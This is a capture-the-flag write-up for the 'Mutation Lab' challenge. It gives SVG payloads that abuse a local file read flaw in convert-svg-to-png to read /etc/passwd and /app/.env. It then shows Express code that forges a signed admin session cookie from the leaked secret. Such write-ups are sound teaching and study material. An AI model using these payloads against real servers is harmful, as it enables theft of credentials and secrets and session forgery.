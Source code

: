 # Mutation Lab

The front page of the challenge is the login screen that also has register function. 

![login.png](login.png)

After creating new account and logging to the service, we are redirected to our dashboard. We do not have access to source code, so the hint that we have to login as administrator is really helpful.

![dashboard.png](dashboard.png)

Main functionality (marked with an arrow) is creating the `.png` file from `.svg` by sending the POST request with xml svg payload with in it.

After some research I found the article about LFI during conversion in convert-svg-to-png package- [https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244). Turned out it works and you can read local files, including source code.

## Payload
```
<svg-dummy></svg-dummy>
<iframe src="file:///etc/passwd" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>
```

## Reading the source code:
![index_js.png](index_js.png)

In index.js I saw, that they use secret from `/app/.env` file, so I extracted that and signed my own cookie and login as an administrator.

## Payload to read secret:
```
<svg-dummy></svg-dummy>
<iframe src="file:///app/.env" width="100%" height="1000px"></iframe>
<svg viewBox="0 0 240 80" height="1000" width="1000" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="0" class="Rrrrr" id="demo">data</text>
</svg>
```
The results look as follows
![secret.png](secret.png)

Now we can use the simple Express code to create your own signed cookie.
```
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()

app.set('trust proxy', 1) // trust first proxy

app.use(cookieSession({
  name: 'session',
  keys: ['5921719c3037662e94250307ec5ed1db']
}))

app.get('/', function (req, res, next) {
  // Update views
  req.session.username = "admin"

  // Write response
  res.end(req.session.username + ' views')
})

app.listen(3000)
```

After copying the cookie from our fake application on localhost to the challenge application, we got the flag

## Flag

![flag.png](flag.png)